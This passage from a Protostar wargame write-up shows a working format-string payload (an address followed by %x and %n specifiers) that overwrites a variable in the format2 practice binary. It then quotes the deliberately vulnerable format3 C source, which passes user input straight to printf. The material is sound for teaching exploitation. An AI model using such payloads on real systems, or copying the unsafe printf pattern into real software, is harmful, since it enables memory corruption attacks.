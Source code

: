 Now we can adjust the payload a little bit to overwrite the target with exact value of 64. First we change the "'%x.'*4" to "%x%x%x%x" and then we can adjust
the width of one of the `%x` modifiers to hit the precise byte value:

```
user@protostar:/opt/protostar/bin$ echo `python -c "print 'AAAA\xe4\x96\x04\x08' + '%x%x%x%x'"`%n | ./format2
AAAA��200b7fd8420bffff62441414141
target is 35 :(
user@protostar:/opt/protostar/bin$ echo `python -c "print 'AAAA\xe4\x96\x04\x08' + '%32x%x%x%x'"`%n | ./format2
AAAA��                             200b7fd8420bffff62441414141
you have modified the target :)
user@protostar:/opt/protostar/bin$ 
```

### Format3

> This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

> This level is at /opt/protostar/bin/format3

#### Source Code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
